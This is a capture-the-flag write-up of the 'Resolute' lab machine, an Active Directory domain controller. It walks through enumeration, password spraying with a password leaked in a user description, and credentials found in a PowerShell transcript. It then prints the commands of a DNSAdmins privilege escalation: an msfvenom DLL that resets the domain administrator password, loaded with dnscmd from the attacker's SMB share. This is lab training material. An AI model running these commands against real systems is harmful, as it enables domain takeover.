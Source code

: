 ### Nmap
As usual we start with regular nmap with `-sC` for default scripts and `-sV` to enumerate versions and making sure to include all ports with `-p-`:
```
PORT      STATE  SERVICE      VERSION
53/tcp    open   domain       Simple DNS Plus
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-22 17:53:31Z)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf       .NET Message Framing
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        Microsoft Windows RPC
49665/tcp open   msrpc        Microsoft Windows RPC
49666/tcp open   msrpc        Microsoft Windows RPC
49667/tcp open   msrpc        Microsoft Windows RPC
49671/tcp open   msrpc        Microsoft Windows RPC
49674/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
49675/tcp open   msrpc        Microsoft Windows RPC
49680/tcp open   msrpc        Microsoft Windows RPC
49712/tcp open   msrpc        Microsoft Windows RPC
50231/tcp closed unknown
50274/tcp open   unknown
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h27m00s, deviation: 4h02m29s, median: 6m59s
| smb2-time: 
|   date: 2022-04-22T17:54:26
|_  start_date: 2022-04-22T17:39:18
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2022-04-22T10:54:23-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
```

### Domain Controller Detection, Host Information & Finding a remote administration port
*Looking at the results,* we find a combination of ports that indicate a domain controller:
1. DNS on 53
2. Kerberos on 88
3. LDAP on 389 & LDAPS on 636
4. SMB on 445

and we also find *WinRM* on 5985 which would be handy in getting a **shell** *if we manage to get a user that's in* **Windows Remote Management** *group.*

We also find out from the **nmap script** that the operating system is **Windows Server 2016 Standard 14393** and that the domain name is **megabank.local** and that the computer name is **Resolute.**

### Setting up our DNS
we add this computer to our `/etc/resolv.conf` to make usage of tools like `impacket` easier.

![etc-resolv-conf](etc-resolv-conf.jpg)

### SMB share enumeration as Null/Anonymous
enumerating shares using multiple options doesn't give us any results:

![smb-enum](smb-enum.jpg)

### Enumerating RPC with `rpcclient`
*using* `rpcclient` *with a blank user* `-U ''` *and the* `-N` *flag for no password*, we get a bunch of users with `enumdomusers`

![enum-dom-users](enum-dom-users.jpg)

we get more details using `querydispinfo2`

![querydispinfo2](querydispinfo2.jpg)

*looking at the description for the* `marko` *user,* we see written: `Account created. Password set to Welcome123!`. We immediately try to login as that user but it doesn't work :/

![marko-failed](marko-failed.jpg)

## Who else is using that password?
*having got an idea of a possible password,* a good logical step is to try that against the entire domain. we put all we got from `rpcclient > enumdomusers` into a text file `users.txt` and use `crackmapexec` to do a **Password Spray.**

![got-melanie](got-melanie.jpg)

**We're lucky! :D** the `melanie` user authenticated.

## Options available after getting a valid AD user

*Having a valid AD user,* we got a couple of things to check:
1. Code execution with **WinRM**
2. SMB Shares
3. GPP Enumeration since it's a domain controller
4. ASREPRoast (could be done without creds but we moved down the password spray path first)
5. Kerberoast
6. BloodHound

![melanie-got-winrm](melanie-got-winrm.jpg)

![melanie-smb-access](melanie-smb-access.jpg)

![GPP-check](GPP-check.jpg)

![asreproast](asreproast.jpg)

![Kerberoast](Kerberoast.jpg)

*With remote code execution using* **WinRM**, we decide to run `SharpHound.exe` from the shell

![sharphound-collection](sharphound-collection.jph)

### Browsing Bloodhound output
*After browsing* `bloodhound` *for a while*, we find that we would have a clear path to Domain Admin if we manage to get the `ryan` user. This is because he is a member of the DNS Admins group which can be abused to elevate our privileges. He's also a member of **Remote Management Users** and that means we can execute code using **WinRM** too.

![ryan-should-takeover](ryan-should-takeover.jpg)

But we don't have him as of the moment. So we look around the file system to see if we can find something to help us.


### Finding creds in a hidden folder
*Looking around the* `C:` *drive*, we find the creds of the `ryan` user in `c:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![transcript-found](transcript-found.jpg)

![ryan-creds-found](ryan-creds-found.jpg)

The creds turn out to be valid and we get a shell as the `ryan` user

![shell-as-ryan](shell-as-ryan.jpg)

### DNSAdmins abuse
*Using* **Google**, we come across an excellent article from **Ired.team** website (https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) fully explaining the abuse.

We should first compile a dll using `msfvenom` and configure **DNS** to load that dll *remotely* from our **SMB share**.

we're going to use a payload that doesn't cause the **DNS** service to hang. It should be something simple like changing the the domain administrator's password

`msfvenom -p windows/x64/exec cmd='net user administrator $$Y0uJustG0tOwn3d$$ /domain' -f dll > owned.dll`

![killer-dll](killer-dll.jpg)

we then host it using **Impacket's** `smbserver.py`

![smb-server-up](smb-server-up.jpg)

*after that,* we're going to reconfigure the **DNS** service using `dnscmd` with the `/config` flag along with `/serverlevelplugindll` pointing to our **SMB** share named `share`. It should be as below:

`dnscmd /config /serverlevelplugindll \\10.10.16.3\share\adduser.dll`

we can then trigger the execution by stopping the **DNS** service and restarting it.

```
sc.exe stop dns
sc.exe start dns
```

![dns-admins-abuse](dns-admins-abuse.jpg)

we get a connect back on our **SMB** share and code execution occures giving us the **Domain Admin** in our hands

![got-domain-admin](got-domain-admin.jpg)

### Notes and pitfalls
using the `sc` command without the `.exe` at the end didn't work. This took me a while to figure out.

![troubleshooting-sc](troubleshooting-sc.jpg)

Also, copying the `msfvenom` generated dll didn't work because the antivirus kept eating it up xD

![evil-dll-eaten](evil-dll-eaten.jpg)